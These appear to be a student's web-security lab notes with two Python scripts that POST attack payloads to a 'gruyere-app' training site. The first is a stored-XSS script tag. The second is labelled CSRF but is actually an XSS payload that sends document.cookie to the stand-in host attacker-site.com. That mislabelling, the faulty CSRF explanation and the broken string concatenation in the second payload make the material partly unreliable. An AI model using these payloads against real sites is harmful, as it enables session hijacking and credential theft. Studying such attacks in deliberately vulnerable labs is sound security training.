 # Cloud-Security-2023 (with notes)
Create code that can automatically exploit its documented vulnerabilities.

**Cross-Site Scripting(XSS attack)**-harmful because they can be used to steal sensitive information, like login credentials or personal data from users.
How to execute an XSS attack- the payload variable contains a script tag with malicious JavaScript code. Problem arises if the server doesn't correctly/properly sanitize or encode the feedback parameter when rendering it in an HTML response. Consequence- script modified on the client side (XSS attack)

**Python Code for Cross-Site Scripting** 

import requests  
payload = "<script>alert('XSS Attack!');</script>" #Payload variable mentioned above- site of vulnerability 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" #This is the target website whereby the document ID has been appended to reach specific endpoint
data = {"feedback": payload}  #key-value pair received by the server where the data is processed(ie value which the payload variable is processed)
response = requests.post(url, data=data)
print(response.text)

**Cross Site Request Forgery (CSRF)**-tricks you into performing actions (unknowingly) on a website you trust, using your already authenticated session. It achieves this using login cookies and after authentication, carries out the request made. This request is a CSRF attack and can be mitigated using anti-CSRF tokens.

**Python Code for Cross-Site Request Forgery**

import requests  
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + \'">\';' #Assigning a payload variable which contains malicious content in the form of html image tag sourced from the url shown.'document.cookie' is important as it stores the cookies associated with the web page (the attacker wants to make a request to). The html image tag tricks the web browser into making a POST request to the target website's settings endpoint.
url = "http://gruyere-app.com/settings" #Target URL
data = {"description": payload} #Key value pair 
response = requests.post(url, data=data) # Requests is a library in python used to make HTTP requests. Post request is made to the target URL and the dictionary 'data' is processed (which contains malicious request/content) which gives attacker access
print(response.text)
